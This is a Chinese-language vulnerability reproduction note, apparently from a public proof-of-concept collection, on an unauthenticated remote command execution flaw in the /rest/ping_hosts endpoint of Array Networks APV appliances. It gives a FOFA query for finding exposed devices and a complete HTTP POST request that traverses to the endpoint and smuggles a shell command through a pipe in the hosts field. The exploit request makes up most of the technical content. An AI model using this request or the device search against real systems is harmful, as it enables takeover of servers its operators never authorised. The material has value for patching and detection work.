 # Array-Networks-APV应用交付系统ping_hosts存在任意命令执行漏洞

# 一、漏洞简介
Array Networks APV应用交付系统 /rest/ping_hosts 接口存在远程命令执行漏洞，未经身份攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。该漏洞利用难度较低，建议受影响的用户尽快修复.

# 二、影响版本
+ Array APV

# 三、资产测绘
+ fofa`app="Array-APV" && title=="Login"`
+ 特征

![1726293906133-59539fc8-cda4-4f9f-82de-3b0706541ee4.png](./img/f_WgzfyB4eIEXb7f/1726293906133-59539fc8-cda4-4f9f-82de-3b0706541ee4-291132.png)

# 四、漏洞复现
```java
POST /restapi/../rest/ping_hosts HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Content-Type: application/x-www-form-urlencoded
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: keep-alive
Content-Length: 98

["127.0.0.1| echo `whoami` received 2 3 4"]=1&csrfmiddlewaretoken=cXLnOdGshlksqOG0Ubnn4SlBvO8zOdWW
```

![1726293935346-e551c4a1-2a2b-4c39-9442-7b5fb3509fc8.png](./img/f_WgzfyB4eIEXb7f/1726293935346-e551c4a1-2a2b-4c39-9442-7b5fb3509fc8-517338.png)





> 更新: 2024-10-22 09:40:53  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cvbg0a36xeft22g9>